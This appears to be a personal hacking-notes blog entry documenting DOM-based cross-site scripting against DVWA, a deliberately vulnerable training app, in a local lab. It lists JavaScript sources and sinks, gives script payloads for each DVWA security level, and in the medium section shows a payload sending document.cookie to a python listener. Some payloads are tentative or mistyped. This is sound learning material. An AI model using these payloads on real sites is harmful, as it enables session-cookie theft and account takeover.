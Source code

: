 ```yaml
---
title: "XSS DOM"
date: 2024-12-23T16:06:04+01:00
draft: false
tags: ["Caido", "XXS", "Web"]
categories: ["Hacking"]
---
```


This attack takes advantage of the Document Object Model(DOM). Manipulating the URL to insert script or change parameters for the attack. 

By setting up a python server, http traffic, specifically cookies can be pulled using the document.cookie parameter and be sent to the server using window.location. Input validation will stop this attack. 

https://portswigger.net/web-security/cross-site-scripting/dom-based

Source:
```dvwa/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>```
	In this example the source is the (document.cookie) java script property

Useful functions: 

\\\ `document.URL`
\\\ `document.documentURI`
\\\ `document.URLUnencoded`
\\\ `document.baseURI`
\\\ `location`
\\\ `document.cookie`
\\\ `document.referrer`
\\\ `window.name`
\\\ `history.pushState`
\\\ `history.replaceState`
\\\ `localStorage`
\\\ `sessionStorage`
\\\ `IndexedDB` (mozIndexedDB, webkitIndexedDB, msIndexedDB)
\\\ `Database`

Sink: 
	An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
	eval()

![Screenshot](1.png)

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=%3Cimg%20alt=%3C/noframes%3E%3Cscript%3Ealert(1)%3C/script%3E`

Medium:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror=alert(document.cookie)>`

Importantly the select parameter is used in the source code and will help the validated script break out(?)

This is used to set up a server that will receive the cookie.

`python3 -m http.server 1337 (setup server)`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror= window.location='http://192.168.10.123:1337=cookie/?=' + document.cookie>`

This didn't give us the cookie, will require more work to send cookie to server. 

![Screenshot](2.png)

![Screenshot](3.png)

![Screenshot](4.png)


High: 

Insert hash end of main url.

`192.168.10.123/dvwa/vulnerabilities/xss_d/#?default=<script>alert(document.cookie)</script>`

Maybe works>>>>

`192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<template><select><option></template><img scr=1 onerror=alert(1)</select><template>`

This one works:

`<img src=x onerror=alert(1)>`

Resources: 

[https://owasp.org/www-community/Types...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa2pmaklMTmVyS0hPUkNnR19wTUZoSUVrb2g3Z3xBQ3Jtc0ttb3dlcTdob29fYzJUZU9zWnN2UEtTTS03NWdCXy1mZEhCcDctQ0phbVdqZExwX084bkhLMk83MmdwTHQ5eGhqMkh0Y1ZDMUdPWlZHQ0tUUEZVQk9xRExtUklWQ25LclNWWFpfQWlINUNpOXRwSXdmNA&q=https%3A%2F%2Fowasp.org%2Fwww-community%2FTypes_of_Cross-Site_Scripting&v=X87Ubv-qDm4) 
